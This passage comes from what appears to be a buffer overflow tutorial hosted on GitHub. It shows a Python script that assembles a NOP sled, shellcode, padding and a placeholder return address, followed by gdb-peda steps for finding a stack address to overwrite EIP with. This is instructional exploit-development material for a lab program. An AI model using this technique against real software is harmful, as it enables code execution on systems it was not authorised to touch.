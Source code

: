     nop = "\x90" * 450 ### Can Be Any Number But i Just do about halfway to be safe
    padding = "\x41" * (712 - len(nop) - len(buf))
    eip = "1234" ### Just a Place Holder

    ### Now Lets Print it for inputting into the program
    attack = nop + buf + padding + eip
    print(attack)

Perfect Our Script Is Almost Ready, Now All We Need is An address for the EIP to jump too

First Set a Breakpoint Just After the strcpy call so we can inspect the registers after
![7th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/9f86c13a-3eb7-4dff-9c69-94fde9134fd7)

Now Run the program with the script we created so we can find an address
  gdb-peda$ run $(python2 arg.py)

And The Debugger Should hit the breakpoint and pause the program, Now We can Inspect the values of memory
run the command "x/500x $esp"

    x
      examain memory

    500x
        show 500 address in hexadecimal format

    $esp
        Show Them Starting from ESP and up

      so all up it prints 500 hexadecimal address's and their values starting from the ESP register
![8th](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/b0a40859-1f75-4aa0-9047-e64ed251f829)

In The Picture We Can Now See Our 450 bytes of no operation values, then after that our shellcode, and then our padding then finally our "1234" in hexadecimal ASCII codes

Now What we Need To Do is choose a address that points to our NO OP Values so it can slide down it to our shellcode (Do You See why its called a NOP Slide Now)

So Choose and address around the middle (Try Not to Choose one with 00, 10, 30 As it could break the exploit)

So From These Ones ( These Are The Address's Next To The nop values)

    0xffffc980
    0xffffc990
    0xffffc9a0
    0xffffc9b0
    0xffffc9c0
    0xffffc9d0
    0xffffc9e0
    0xffffc9f0
    0xffffca00
    0xffffca10
    0xffffca20
    0xffffca30
    0xffffca40
    0xffffca50
    0xffffca60
    0xffffca70
    0xffffca80
    0xffffca90
    0xffffcaa0
    0xffffcab0
    0xffffcac0
    0xffffcad0
    0xffffcae0
    0xffffcaf0
    0xffffcb00